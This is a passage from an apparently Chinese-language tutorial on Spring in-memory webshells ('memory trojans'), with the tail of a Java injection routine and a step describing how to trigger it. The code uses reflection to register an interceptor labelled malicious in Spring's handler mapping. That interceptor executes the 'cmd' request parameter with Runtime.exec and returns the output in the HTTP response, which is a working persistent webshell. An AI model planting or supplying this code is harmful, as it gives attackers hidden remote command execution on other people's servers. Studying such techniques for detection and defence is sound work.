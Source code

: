         adaptedInterceptorsField.setAccessible(true);
        List<HandlerInterceptor> handlerInterceptors = (List<HandlerInterceptor>) adaptedInterceptorsField.get(requestMappingHandlerMapping);
        handlerInterceptors.add(new EvilInterceptor());
        adaptedInterceptorsField.set(requestMappingHandlerMapping, handlerInterceptors);
    
        return "interceptor done!";
    }
    
    /**
     * 恶意的 Interceptor
     */
    public class EvilInterceptor implements HandlerInterceptor {
        @Override
        public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
            InputStream inputStream = Runtime.getRuntime().exec(request.getParameter("cmd").trim()).getInputStream();
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream, "GB2312"));
            String line;
            StringBuilder result = new StringBuilder();
            while ((line = bufferedReader.readLine()) != null) {
                result.append(line).append("\n");
            }
            bufferedReader.close();
            inputStream.close();
            System.out.println(result);
            response.setCharacterEncoding("GB2312");
            response.getWriter().write(result.toString().replaceAll("\n", "<\\br>"));
            response.getWriter().flush();
            response.getWriter().close();
            HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
        }
    }
    ```

2. 首次访问后注入 interceptor，随后访问 404 页面时回显：
    ![image-20250206184746773](Memory-Trojan-Spring/image-20250206184746773.png)